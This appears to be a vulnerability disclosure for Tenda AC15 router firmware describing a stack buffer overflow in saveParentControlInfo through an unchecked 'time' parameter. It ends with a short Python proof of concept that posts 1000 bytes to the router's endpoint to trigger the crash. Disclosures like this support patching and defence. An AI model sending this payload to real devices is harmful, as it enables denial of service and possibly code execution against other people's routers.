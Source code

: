 ## Overview

- Firmware download website: https://www.tendacn.com/us/download/detail-3851.html

## Affected version

AC15V1.0 V15.03.20_multi

## Vulnerability details

The function `saveParentControlInfo` contains a stack-based buffer overflow vulnerability.

![image-20240316165918271](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316165918271.png)

it reads in a user-provided parameter `time`, and the variable is passed to the function without any length check, which may lead to overflow of the stack-based buffer.

![image-20240316180034478](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316180034478.png)

As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

![image-20240316180049143](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316180049143.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/saveParentControlInfo"
payload = b"a"*1000

data = {"time": payload}
response = requests.post(url, data=data)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314171654837.png)
